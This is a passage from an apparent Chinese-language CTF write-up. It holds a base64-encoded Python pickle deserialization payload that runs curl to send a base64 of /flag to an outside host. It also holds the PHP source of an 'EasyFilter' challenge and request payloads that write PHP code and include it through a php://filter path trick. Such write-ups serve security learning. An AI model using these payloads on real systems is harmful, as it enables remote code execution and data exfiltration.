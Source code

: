 把base64加密后的payload传入name参数：

```
Y2NvbmZpZwpub3RhZG1pbgpwMAowZzAKUydhZG1pbicKUyd5ZXMnCnNjY29uZmlnCmJhY2tkb29yCnAyCjBnMgooKFMnX19pbXBvcnRfXyhcJ29zXCcpLnBvcGVuKFwnY3VybCAwLjAuMC4wOjE/aT1gY2F0IC9mbGFnfGJhc2U2NGBcJykucmVhZCgpJwpsdFIu
```

获取flag:

![image-20211024150613844](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025082336.png)



## **EasyFilter**

题目源码：

```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
    
```

有个写文件 和包含文件的功能！

经过测试发现： 它好像缺少过滤器：

![image-20211025082953547](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025082953.png)

![image-20211025082833581](https://gitee.com/taochiyu/blogimage/raw/master/img/20211025082833.png)



构造payload: 我们给他加一个过滤器

```
?action=w&c=<?=phpinfo();
```

```
?action=r&r=/convert.base64-decode/../5f72d0bd55
```
